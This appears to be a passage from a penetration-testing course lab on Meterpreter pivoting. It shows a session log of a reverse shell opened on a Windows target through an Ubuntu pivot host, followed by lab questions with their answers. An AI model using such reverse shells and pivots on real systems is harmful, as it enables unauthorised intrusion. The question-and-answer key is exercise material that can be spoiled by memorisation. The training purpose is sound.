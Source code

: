 Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

**Establishing the Meterpreter session**

Meterpreter Tunneling & Port Forwarding

```shell-session
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

***

Note: When spawning your target, we ask you to wait for 3 - 5 minutes until the whole lab with all the configurations is set up so that the connection to your target works flawlessly.

**Questions**

What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)

172.16.5.19,172.16.5.129

Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)

172.16.5.0/255.255.254.0
